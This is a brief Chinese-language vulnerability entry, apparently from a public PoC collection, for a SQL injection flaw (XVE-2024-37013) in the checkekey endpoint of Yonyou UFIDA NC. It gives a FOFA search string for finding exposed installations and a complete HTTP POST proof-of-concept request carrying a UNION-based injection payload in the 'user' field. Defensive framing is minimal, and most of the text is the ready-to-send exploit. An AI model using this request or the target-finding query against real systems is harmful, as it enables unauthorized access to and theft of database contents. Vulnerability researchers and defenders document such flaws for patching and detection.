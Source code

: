 # 用友NC接口checkekey存在SQL注入漏洞(XVE-2024-37013)

用友NC中checkekey存在SQL注入漏洞，攻击者可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa

```javascript
app="用友-UFIDA-NC"
```

## poc

```javascript
POST /portal/pt/office/checkekey?pageId=login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Connection: close

user=1' UNION ALL SELECT NULL,CHR(113)||CHR(113)||CHR(112)||CHR(122)||CHR(113)||CHR(80)||CHR(103)||CHR(106)||CHR(122)||CHR(81)||CHR(70)||CHR(74)||CHR(104)||CHR(106)||CHR(107)||CHR(100)||CHR(74)||CHR(105)||CHR(114)||CHR(88)||CHR(73)||CHR(112)||CHR(81)||CHR(101)||CHR(119)||CHR(116)||CHR(79)||CHR(71)||CHR(78)||CHR(115)||CHR(65)||CHR(111)||CHR(70)||CHR(103)||CHR(85)||CHR(71)||CHR(83)||CHR(101)||CHR(65)||CHR(71)||CHR(90)||CHR(114)||CHR(87)||CHR(78)||CHR(107)||CHR(113)||CHR(106)||CHR(98)||CHR(112)||CHR(113),NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM DUAL-- twnX&ekey=1
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501122254942.webp)

## 漏洞来源

- https://mp.weixin.qq.com/s?__biz=MzkyNDY3MTY3MA==&mid=2247486717&idx=1&sn=09d465455794e1d55e13f2b10565a7ab